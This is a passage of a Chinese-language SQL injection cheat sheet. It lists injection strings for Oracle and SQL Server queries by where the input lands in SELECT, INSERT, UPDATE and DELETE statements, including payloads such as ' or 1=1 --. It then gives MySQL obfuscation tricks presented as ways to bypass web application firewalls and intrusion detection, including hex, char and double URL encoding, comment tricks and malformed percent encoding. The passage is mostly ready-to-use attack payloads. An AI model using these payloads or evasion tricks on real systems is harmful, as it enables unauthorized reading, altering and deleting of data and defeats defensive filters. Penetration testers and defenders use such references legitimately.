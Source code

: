 #### **Oracle**

<table width="677"><thead><tr><th>注入位置</th><th align="center">语句</th><th align="center">注入字符串</th></tr></thead><tbody><tr><td>SELECT -&gt; WHERE</td><td align="center">SELECT user FROM dual WHERE user LIKE '$injection';</td><td align="center">'||'USER%'||'</td></tr><tr><td>INSERT -&gt; VALUES</td><td align="center">INSERT INTO log_table (message) VALUES ('$injection');</td><td align="center">'||(select user from dual)||'</td></tr><tr><td>UPDATE -&gt; SET</td><td align="center">UPDATE log_table SET message = '$injection' WHERE message = 'test';</td><td align="center">'||(select user from dual)||</td></tr><tr><td>UPDATE -&gt; WHERE&nbsp;<br>注意：尝试将注入字符串设置为有效的 WHERE 值。如果对象已更新，则注入成功。</td><td align="center">UPDATE log_table SET message = 'test' WHERE message = '$injection';</td><td align="center">'||'Injected'||'</td></tr></tbody></table>

#### **SQL Server**

<table width="677"><thead><tr><th>注入位置</th><th align="center">语句</th><th align="center">注入字符串</th></tr></thead><tbody><tr><td>SELECT -&gt; WHERE</td><td align="center">SELECT * FROM USERS WHERE "USER"='$injection';</td><td align="center">' or 1=1 --</td></tr><tr><td>UPDATE -&gt; SET</td><td align="center">UPDATE USERS SET "email"='$injection' WHERE "USER"='NetSPI';</td><td align="center">'+'harold@netspi.com'+'</td></tr><tr><td>UPDATE -&gt; WHERE&nbsp;<br>注意：尝试将注入字符串设置为有效的 WHERE 值。如果对象已更新，则注入成功。</td><td align="center">UPDATE USERS SET "email"='harold@netspi.com' WHERE "USER"='$injection';</td><td align="center">'+'NetSPI'+'</td></tr><tr><td>DELETE -&gt; WHERE</td><td align="center">DELETE USERS WHERE "User"='$injection';</td><td align="center">'+'NetSPI'+'</td></tr><tr><td>INSERT -&gt; VALUES</td><td align="center">INSERT INTO USERS ([User], [Password]) VALUES ('$injection', 'password');</td><td align="center">'+(select @@version)+'</td></tr></tbody></table>

### **3、混淆查询**

混淆查询帮助绕过 Web 应用程序防火墙（WAF）和入侵检测 / 预防系统（IDS / IPS）。以下是基本查询混淆的示例，它们在应用于某些注入之前可能需要进行修改。

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>ASCII &gt; 字符</td><td align="center">SELECT char（65）</td></tr><tr><td>字符 &gt; ASCII</td><td align="center">SELECT ascii（'A'）</td></tr><tr><td>十六进制</td><td align="center">SELECT 0x4A414B45</td></tr><tr><td>Hex&gt; Int</td><td align="center">SELECT 0x20 + 0x40</td></tr><tr><td>按位与</td><td align="center">SELECT 6 &amp; 2</td></tr><tr><td>按位或</td><td align="center">SELECT 6</td></tr><tr><td>按位否定</td><td align="center">SELECT ~6</td></tr><tr><td>按位 XOR</td><td align="center">SELECT 6 ^ 2</td></tr><tr><td>右移</td><td align="center">SELECT 6&gt;&gt;2</td></tr><tr><td>左移</td><td align="center">SELECT 6&lt;&lt;2</td></tr><tr><td>字符串截取</td><td align="center">SELECT substr('abcd', 3, 2) &nbsp;<br>substr(string, index, length)</td></tr><tr><td>Casting</td><td align="center">SELECT cast('1' AS unsigned integer) &nbsp;<br>SELECT cast('123' AS char)</td></tr><tr><td>字符串连接</td><td align="center">SELECT concat('net','spi')&nbsp;<br>SELECT 'n' 'et' 'spi'</td></tr><tr><td>无引号</td><td align="center">SELECT CONCAT(CHAR(74),CHAR(65),CHAR(75),CHAR(69))</td></tr><tr><td>块注释</td><td align="center">SELECT/*block &nbsp;<br>&nbsp;comment*/"test"</td></tr><tr><td>单行注释</td><td align="center">SELECT 1 -- comments out rest of line &nbsp;<br>SELECT 1 # comments out rest of line</td></tr><tr><td>无空格</td><td align="center">SELECT(username)FROM(USERS)WHERE(username='netspi')</td></tr><tr><td>允许空白</td><td align="center">09, 0A, 0B, 0C, 0D, A0, 20</td></tr><tr><td>URL 编码</td><td align="center">SELECT%20%2A%20FROM%20USERS</td></tr><tr><td>双 URL 编码</td><td align="center">SELECT%2520%2A%2520FROM%2520USERS</td></tr><tr><td>无效百分号编码</td><td align="center">%SEL%ECT * F%R%OM U%S%ERS</td></tr></tbody></table>

**Oracle**

